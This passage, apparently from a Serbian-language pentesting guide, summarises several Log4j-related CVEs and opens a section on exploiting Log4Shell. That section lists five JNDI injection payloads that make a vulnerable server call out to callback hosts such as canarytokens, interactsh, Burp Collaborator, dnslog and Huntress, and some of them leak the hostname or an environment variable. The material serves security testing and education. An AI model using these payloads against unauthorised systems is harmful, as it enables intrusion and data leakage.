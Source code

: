### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **\[Kritično]**

Inicialno ocenjen kao nizak, ali kasnije unapređen u kritičan, ovaj CVE je **DoS (Denial of Service)** greška proizašla iz nepotpunog popravka u verziji 2.15.0 za CVE-2021-44228. Utiče na nezadane konfiguracije, omogućavajući napadačima izazivanje DoS napada putem prilagođenih paketa. Jedan [tvit](https://twitter.com/marcioalm/status/1471740771581652995) prikazuje metodu zaobilaženja. Problem je rešen u verzijama 2.16.0 i 2.12.2 uklanjanjem šablona pretrage poruka i onemogućavanjem JNDI po zadanom.

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **\[Visok]**

Uticaj na **Log4j 1.x verzije** u nezadanim konfiguracijama koje koriste `JMSAppender`, ovaj CVE je nesigurna deserializacijska greška. Nema dostupnog popravka za granu 1.x, koja je dostigla kraj životnog ciklusa, i preporučuje se nadogradnja na `log4j-core 2.17.0`.

### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **\[Umereno]**

Ova ranjivost utiče na **Logback logging framework**, naslednika Log4j 1.x. Ranije smatran sigurnim, okvir je otkriven kao ranjiv, i novije verzije (1.3.0-alpha11 i 1.2.9) su objavljene radi rešavanja problema.

### **CVE-2021-45105** **\[Visok]**

Log4j 2.16.0 sadrži DoS grešku, što je dovelo do izdavanja `log4j 2.17.0` za rešavanje CVE-a. Više detalja možete pronaći u BleepingComputer-ovom [izveštaju](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Uticaj na log4j verziju 2.17, ovaj CVE zahteva da napadač kontroliše konfiguracioni fajl log4j-a. Uključuje potencijalno izvršavanje proizvoljnog koda putem konfigurisanog JDBCAppender-a. Više detalja dostupno je u [Checkmarx blog postu](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/).

## Eksploatacija Log4Shell-a

### Otkriće

Ova ranjivost je veoma lako otkriti ako nije zaštićena, jer će poslati barem **DNS zahtev** na adresu koju naznačite u vašem paketu. Stoga, paketi poput:

* `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (koristeći [canarytokens.com](https://canarytokens.org/generate))
* `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (koristeći [interactsh](https://github.com/projectdiscovery/interactsh))
* `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (koristeći Burp Suite)
* `${jndi:ldap://2j4ayo.dnslog.cn}` (koristeći [dnslog](http://dnslog.cn))
* `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` (koristeći [huntress](https://log4shell.huntress.com))
